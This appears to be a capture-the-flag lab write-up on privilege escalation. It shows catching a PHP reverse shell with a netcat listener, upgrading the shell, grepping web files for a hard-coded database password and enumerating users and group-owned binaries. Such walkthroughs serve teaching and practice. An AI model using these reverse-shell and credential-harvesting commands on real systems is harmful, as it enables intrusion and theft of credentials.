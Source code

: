 
## Privilege Escalation

### Initial Foothold Establishment

After uploading the PHP reverse shell and gaining access as `www-data`, the first step involves establishing a stable shell and beginning local enumeration.

```bash
# Establish netcat listener
nc -lvnp 1234

# Access reverse shell
http://{TARGET_IP}/uploads/php-reverse-shell.php

# Upgrade to interactive shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### Local Enumeration Methods

**Credential Discovery:**
```bash
# Navigate to web application directory
cd /var/www/html/cdn-cgi/login

# Search for password-related strings
cat * | grep -i passw*

# Found in db.php:
# $conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
```

**User Enumeration:**
```bash
# Check available users
cat /etc/passwd | grep -E "(bash|sh)$"

# Identify target user: robert
```

### Escalation Vector Identification

**Group Membership Analysis:**
```bash
# Check robert's group membership
id
# uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)

# Find files owned by bugtracker group
find / -group bugtracker 2>/dev/null
# /usr/bin/bugtracker
```
